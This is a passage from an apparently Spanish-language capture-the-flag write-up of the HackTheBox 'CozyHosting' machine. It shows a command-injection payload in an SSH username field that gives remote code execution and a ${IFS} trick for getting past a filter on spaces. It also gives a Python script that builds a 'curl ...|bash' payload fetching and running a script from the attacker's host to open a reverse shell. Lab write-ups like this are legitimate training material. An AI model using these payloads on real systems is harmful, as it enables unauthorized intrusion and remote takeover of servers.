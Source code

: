 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/cozyhosting/htb559_page80admin_trySSH_req.png" style="width: 100%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/cozyhosting/htb559_page80admin_trySSH_res.png" style="width: 100%;"/>

Se esta usando en consola la tool `ssh` 🤭

Basicamente lo que nos esta mostrando es esto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/cozyhosting/htb559_bash_LOCALtrySSH_commandInjectionInvalid.png" style="width: 70%;"/>

Solo que la linea final no se esta llegando a mostrar... Peeero al validar ingresando contenido antes del intento de inyeccióóóóón:

```txt
Hostname: 10.10.14.164
Username: a`id`;#
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/cozyhosting/htb559_page80admin_trySSH_res_idRCE.png" style="width: 100%;"/>

EPALEEEE! Tenemos ejecución remota de comandooooooos (:

Solo que no todo es color de rosa ): Nuestros comandos no estan siendo correctamente ejecutados, peeeero el problema lo encontramos al ejecutar comandos que usen espacios, por ejemplo `cat /etc/passwd`, ese espacio no nos lo esta reconociendo, incluso al colocar `cat+/etc/passwd` o `cat%20/etc/passwd`, por lo que tenemos que lidiar con algo nuevo...

Una simple busqueda en internet tal que: `command injection without white spaces`, nos envia a:

* [How to send a command with arguments without spaces?](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces)

Y nos enseña:

```bash
cat${IFS}file.txt
```

> **The default value of** `IFS` **is space**, **tab**, **newline**. All of these characters are whitespace. Consecutive separator characters that are whitespace are treated as a single separator, so the result of the expansion of `cat${IFS}file.txt` is two words: `cat` and `file.txt`.

Me gusta, me gustaaaaa. Con este simple script, le pasamos el comando a ejecutar y nos devolvera la cadena a enviar ya con el valor `${IFS}` reemplazado en lugar de los espacios:

Vamos por ejemplo a intentar entablar una reverse shell:

```py
#!/usr/bin/python3

value = "curl http://10.10.14.164:8000/holas.sh|bash"

new_value = value.replace(" ","${IFS}")
print(f"a`{new_value}`;#")
```

En esta forma de obtener una reverse shell, le diremos al sitio web que haga una petición contra un recurso que estaremos hosteando llamado `holas.sh`, que lea su contenido y posteriormente (`|`) lo ejecute en el sistema mediante una `bash`.
